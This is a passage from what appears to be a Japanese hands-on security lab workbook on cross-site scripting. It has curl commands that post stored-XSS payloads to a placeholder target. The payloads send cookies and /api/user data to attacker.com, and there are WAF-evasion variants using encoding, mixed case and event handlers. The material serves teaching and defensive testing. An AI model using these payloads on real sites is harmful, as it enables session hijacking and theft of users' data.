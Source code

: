**課題**: 投稿後、コメントページにアクセスするたびにスクリプトが実行されますか？

### 演習2.3: 高度なXSS攻撃

#### ステップ1: Cookie窃取攻撃
```bash
# 1. 攻撃者のサーバー準備（シミュレーション）
# 実際の環境では外部サーバーを使用
echo "Cookie theft simulation" > /tmp/stolen_cookies.log

# 2. Cookie窃取ペイロード
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>&name=Attacker"
```

#### ステップ2: セッションハイジャック攻撃
```bash
# 1. セッション情報の取得ペイロード
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<script>fetch('/api/user', {credentials: 'include'}).then(r=>r.text()).then(d=>fetch('http://attacker.com/steal', {method:'POST', body:d}))</script>&name=Attacker"
```

**課題**: これらの攻撃が成功した場合、攻撃者は何を取得できますか？

### 演習2.4: XSS防御の実装と検証

#### ステップ1: WAF保護下でのテスト
```bash
# セキュリティレベル2でのXSSテスト
curl "http://<target-url>/search?q=<script>alert('XSS')</script>"

# 期待される結果: 403 Forbidden
```

#### ステップ2: WAF回避技術のテスト
```bash
# 1. エンコーディングを使用した回避
curl "http://<target-url>/search?q=%3Cscript%3Ealert('XSS')%3C/script%3E"

# 2. 大文字小文字の混在
curl "http://<target-url>/search?q=<ScRiPt>alert('XSS')</ScRiPt>"

# 3. 異なるイベントハンドラー
curl "http://<target-url>/search?q=<body onload=alert('XSS')>"
```

**課題**: WAFを回避できるペイロードはありましたか？どのような回避技術が効果的でしたか？

---
